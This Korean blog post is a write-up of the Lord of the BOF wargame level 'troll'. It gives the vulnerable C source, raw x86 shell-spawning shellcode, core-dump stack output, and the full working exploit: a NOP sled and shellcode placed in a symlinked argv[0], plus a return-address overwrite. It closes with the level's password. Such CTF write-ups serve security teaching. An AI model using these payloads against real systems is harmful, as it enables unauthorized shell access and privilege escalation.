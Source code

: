 ```yaml
---
layout: post
title:  "[LOB]Level08. troll"
subtitle:   "[LOB]orge → troll"
categories: LOB
tags:
- Wargame
- LOB
- Write-up
---
```


## keyword : check argc

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	// here is changed
	if(argc != 2){
		printf("argc must be two!\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// one more!
	memset(argv[1], 0, strlen(argv[1]));
}
```

> shell(24byte) = 
>
> \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80

>'\x2f'없는 shell(48byte) = 
>
>\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81



 argc의 개수를 2로 정해졌으므로, argv[2]를 사용 하지 못한다.

buffer내용도 0으로 초기화 되며, argv[1]를 이용해서 argv[2]를 덮으려고 해도 길이가 48을 넘어 갈 수 없다.

그리고 argv[1]에 넣은 만큼 0으로 초기화 된다.



트롤 맞네... 😩😫



초기화 안된 영역은 argv[0]영역 밖에 없다. 이를 이용하자.

`python -c 'print "A"*44+"\xbf"*4'`

으로 core를 생성 한 후, core덤프에서 x/32s $esp 로 보다보면 파일 이름이 들어간 주소가 보인다.

```sh
0xbffffc44:	 ""
0xbffffc45:	 ""
0xbffffc46:	 ""
0xbffffc47:	 "i686"
0xbffffc4c:	 "./trola"
0xbffffc54:	 ""
0xbffffc55:	 ""
0xbffffc56:	 ""
```



이제 argv[0]에 쉘코드를 넣어야 한다.

> 이때 중요한것은 쉘코드에 '\x2f'값이 없어야 한다. 이유는 '/'문자열이 '\x2f'이기 때문에, 경로로 인식하게 때문이다.



이때 심볼릭링크를 사용해야 한다.

```sh
[orge@localhost orge]$ ln -s troll `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
[orge@localhost orge]$ ls
core
trola
troll
troll.c
??????????????????????????????????????????????????�?^1ɱ2?l?�??�?u��?�����2�Qi00tii0cjo?�QT?�?�?�?
```



```
0xbffffa89:	 ""
0xbffffa8a:	 ""
0xbffffa8b:	 "i686"
0xbffffa90:	 "./", '\220' <repeats 105 times>, "�\021^1ɱ2\200l\016�\001\200�\001u��\005�����2�Qi00tii0cjo\212�QT\212�\232�\f�\201"
0xbffffb2c:	 ""
0xbffffb2d:	 ""
```



```
./`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` `python -c 'print "A"*44+"\x90\xfa\xff\xbf"'`
```



쉘코드를 파일 이름으로 심볼릭 링크 했기 때문에, 쉘코드를 파일로 인식을 하게 되고, main함수의 ret가 argv[0]을 가리키고 있는데 해당 주소에는 쉘코드가 있기 때문에 쉘이 실행된다.



##### **troll / aspirin**